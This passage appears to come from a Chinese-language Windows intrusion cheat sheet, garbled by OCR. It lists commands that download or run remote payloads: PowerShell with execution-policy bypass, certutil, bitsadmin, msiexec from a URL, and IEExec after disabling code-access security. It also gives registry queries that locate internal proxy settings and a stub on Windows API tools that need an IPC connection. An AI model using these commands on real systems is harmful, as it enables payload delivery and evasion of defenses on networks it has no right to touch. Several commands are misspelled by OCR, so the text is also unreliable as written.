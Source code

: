 1 - powershell(win2003、 winXP不支持)

```
power -exec bypass -c (new-object SystemNet.webctient).Downloadfie('http://192.168.1.101/test.txt','c:\test.txt')
```

2 - certutil

```
certutil.exe -urlcache -split -f http://192.168.1.1/test.txtfile.txt
```

3 - bitadmin

```
bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt
bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt
```

4 - msiexec

```
msiexec /q /i http://192.168.1.1/test.txt
```

5 - IEExec

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727> caspol -s off
C:\Windows\microsoft.NET\Framework\v2.0.50727> IEExec.exe http://192.168.1.1/test.exe
```

#### 7、获取内网代理

内网有些资源可能需要挂指定代理才可以访问：

- ie代理
- pac代理

```
// 直接查询HKEY_CURRENT_USER(ie 代理)
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
```

![image](23.png)

```
// 直接查询HKEY_CURRENT_USER(pac 代理)
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL
```

![image](24.png)

#### 8、windows api使用

利用API 写成一些小工具。所有工具使用前提：建立IPC连接。
